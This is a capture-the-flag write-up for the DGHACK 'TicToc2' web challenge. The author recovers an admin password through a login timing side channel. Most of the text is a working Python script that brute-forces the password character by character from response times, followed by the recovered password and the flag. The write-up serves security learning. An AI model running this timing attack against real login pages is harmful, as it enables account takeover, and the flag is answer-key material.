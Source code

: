 ```
Une société secrète d'horloger prépare quelque chose...

Saurez-vous pénétrer leur platforme web ?
```

Many clocks... After a week of overthinking, i realized "wait, there are many clocks !". And then i tried a timing attack ... which was the solution :)
I figured it out because inputting `B` as password took 200ms, while another letter was taking at max 10ms.

Here is my code !

```python
import requests
import string
import time

def send_request(password_attempt):
    url = "http://tictoc2.chall.malicecyber.com/login.php"
    data = {"username": "admin", "password": password_attempt}
    start_time = time.time()
    response = requests.post(url, data=data, allow_redirects=False)
    end_time = time.time()
    return response, end_time - start_time

def perform_timing_attack():
    valid_characters = " ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789_*"
   # valid_characters = " !\"#$%&\'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz{|}~"

    correct_password = []
    password_length = 60  # Adjust to the actual length of the password
    last_time = 0

    while len(correct_password) < password_length:
        max_response_time = 0
        next_char = None

        for char in valid_characters:
            while True:
                password_attempt = ''.join(correct_password) + char
                response, response_time = send_request(password_attempt)
                if response_time <= 2.0:
                    time.sleep(30)
                else:
                    break

            print(f"Attempt: {password_attempt}, Response Time: {response_time}")

            if response_time - last_time >= 0.15 and last_time != 0:
                max_response_time = response_time
                next_char = char
                last_time = response_time
                break

            if response_time > max_response_time:
                max_response_time = response_time
                next_char = char


        if next_char is not None:
            last_time = max_response_time
            correct_password.append(next_char)
            print("Current password:", ''.join(correct_password))
        else:
            print("No valid character found for the next position.")
            break  # Break out of the loop if no characters were added

    print("Final password:", ''.join(correct_password))

if __name__ == "__main__":
    perform_timing_attack()

```

Password was very long... `BiorO6ms0 dcceri0uhwNAMVzc1258aefVPa*Acknduan cgu_zcndd`

And that gives us the flag: `
DGHACK{Just_In_Time_to_Not_Waste_My_Time}
`
